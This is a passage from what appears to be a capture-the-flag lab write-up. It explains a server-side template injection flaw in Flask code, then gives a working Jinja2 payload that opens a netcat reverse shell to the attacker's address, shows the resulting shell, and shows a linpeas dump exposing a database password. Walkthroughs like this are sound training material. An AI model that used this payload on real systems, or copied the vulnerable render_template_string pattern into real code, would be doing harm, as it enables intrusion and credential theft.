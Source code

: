 ```python
@blueprint.route('/confirm/changes/<token>')
def confirm_changes(token):
    """Confirmation Token"""
    try:
        email = ts.loads(token, salt="changes-confirm-key", max_age=86400)
    except:
        abort(404)
    user = User.query.filter_by(username=email).first_or_404()
    name = user.profile_update
    template = open('templates/emails/update-name.html', 'r').read()
    msg = Message(
            recipients=[f'{user.email}'],
            sender = 'support@example.com',
            reply_to = 'support@example.com',
            subject = "Your profile changes have been confirmed."
        )
    msg.html = render_template_string(template % name)
    mail.send(msg)

    return render_template('index.html')
```
As can be seen in the snippet above, the application takes the updated name and inserts it into the the template without any checks. This is SSTI and worst case scenario it leads to code execution on the system hosting the application. More details can be found [here](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) and [here](https://blog.nvisium.com/p263). 

If we change our name on the demo application we can see that we have code execution via the mail application.

![Changing the name of our profile in demo app](changename.png)

![SSTI confirmed via mail app](sstires.png)

We can use the SSTI to execute code. In our case we'll use a reverse shell payload. 
{% raw %}
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.182 1337 >/tmp/f').read() }}
```
{% endraw %}
```console
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.86.187] 51288
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## Pivot
Now that we have a shell on the system we should try to leverage that into getting access to a user account. In this case i simply ran linpeas:
```console
╔══════════╣ Analyzing Passbolt Files (limit 70)
-rw-r----- 1 root www-data 3128 Feb 25  2021 /etc/passbolt/passbolt.php                                                                                                                                                                     
 * Passbolt ~ Open source password manager for teams
            'host' => 'localhost',
            'port' => '3306',
            'username' => 'passbolt',
            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
            'database' => 'passboltdb',
```